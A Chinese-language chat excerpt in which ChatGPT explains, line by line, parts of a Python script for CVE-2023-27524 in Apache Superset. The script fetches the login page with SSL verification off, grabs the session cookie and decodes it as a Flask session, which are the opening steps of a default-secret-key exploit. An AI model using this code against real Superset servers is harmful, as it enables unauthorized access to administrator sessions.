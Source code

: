 ¹: [CVE-2023-27524](^1^)

源: 与必应的对话， 2023/8/18
(1) 看不懂代码？让 AI 来帮你翻译！| Github Copilot Labs - 掘金. https://juejin.cn/post/7081301239593435149.
(2) 看不懂代码？让 AI 来帮你翻译！| Github Copilot Labs - 掘金. https://juejin.cn/post/7081301239593435149.
(3) 看不懂代码怎么办？有没有可以解释代码或者其他方法可以看懂 .... https://www.zhihu.com/question/369988824.
(4) mapreduce 实例代码详解(一行一行的注释)  - CSDN 博客. https://blog.csdn.net/qq_44823756/article/details/111758706.
(5) 深度学习代码有救了！我发现了一个逐行解读代码的网站 .... https://www.bilibili.com/video/BV1M94y1B7qX/.

---

ChatGPT

当然，接下来我们继续解释代码的每一行。

```python
        u = args.url.rstrip("/") + "/login/"

        headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:101.0) Gecko/20100101 Firefox/101.0"
        }

        resp = requests.get(
            u, headers=headers, verify=False, timeout=30, allow_redirects=False
        )
        if resp.status_code != 200:
            print(
                f"Error retrieving login page at {u}, status code: {resp.status_code}"
            )
            return
```

这段代码主要用于获取 Superset 登录页面。

- `u = args.url.rstrip("/") + "/login/"`: 构建 Superset 登录页面的 URL，`rstrip("/")` 是为了确保 URL 末尾没有斜杠。

- `headers = { ... }`: 创建一个 HTTP 请求头，模拟一个用户代理为 Mozilla Firefox 的请求。

- `resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)`: 发送一个 GET 请求到构建的 URL，使用定义的请求头。`verify=False` 禁用了 SSL 证书验证，`timeout=30` 设置了请求的超时时间，`allow_redirects=False` 禁止了重定向。

- `if resp.status_code != 200:`: 如果响应的状态码不是 200(即成功) ，则输出错误消息，并中止程序运行。

```python
        session_cookie = None
        for c in resp.cookies:
            if c.name == "session":
                session_cookie = c.value
                break

        if not session_cookie:
            print("Error: No session cookie found")
            return

        print(f"Got session cookie: {session_cookie}")

        try:
            decoded = session.decode(session_cookie)
            print(f"Decoded session cookie: {decoded}")
        except:
            print("Error: Not a Flask session cookie")
            return
```
